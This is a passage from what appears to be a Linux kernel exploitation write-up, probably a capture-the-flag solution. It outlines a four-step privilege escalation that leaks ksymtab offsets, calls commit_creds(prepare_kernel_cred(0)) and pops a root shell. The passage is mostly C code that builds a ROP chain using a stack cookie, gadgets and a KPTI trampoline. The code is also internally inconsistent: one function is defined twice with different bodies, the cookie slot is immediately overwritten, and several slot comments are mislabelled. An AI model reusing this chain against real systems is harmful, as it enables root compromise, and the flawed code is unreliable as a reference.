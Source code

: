 the exploit will be made completed in 4 parts:

step1 : leak the prepare_kernel_cred offset from __ksymtab_prepare_kernel_cred

step2 : leak the commit_creds offset from __ksymtab_commit_creds

step3: execute commit_creds(prepare_kernel_cred(0))

step4 : pop a root shell !!!

step 1:

```C
int tmp,commit_creds;
unsigned long struct_commit_creds;
void prepare_kernel_creds_asm_save(void){
__asm__(
        ".intel_syntax noprefix;"
        "mov tmp,rax;"
        ".att_syntax;"
);

commit_creds = ksymtab_commit_creds + tmp;

step2();

}
void step1(){
unsigned long payload[50];
int offs=16;

// 16 is the cookie offset
payload[offs] = cookie;
payload[offs++] = 0x0; // rbx 
payload[offs++] = 0x0; // r12 
payload[offs++] = 0x0; // rbp
payload[offs++] = pop_rax_ret; // function ret 
payload[offs++] = ksymtab_prepare_kernel_cred-0x10;
payload[offs++] = read_mem_pop1_ret; // 
payload[offs++] = 0x0; // rbp
payload[offs++] = kpti_trampoline; // rbp
payload[offs++] = 0x0; // rbp
payload[offs++] = 0x0; // rbp
payload[offs++] = prepare_kernel_creds_asm_save; // rbp
payload[offs++] = user_cs;
payload[offs++] = user_rflags;
payload[offs++] = user_sp;
payload[offs++] = user_ss;

write(global_fd,payload,sizeof(payload));

}

void prepare_kernel_creds_asm_save(void){
__asm__(
        ".intel_syntax noprefix;"
        "mov tmp,rax;"
        ".att_syntax;"
);

prepare_kernel_cred = ksymtab_prepare_kernel_cred + tmp;

step2();

}

```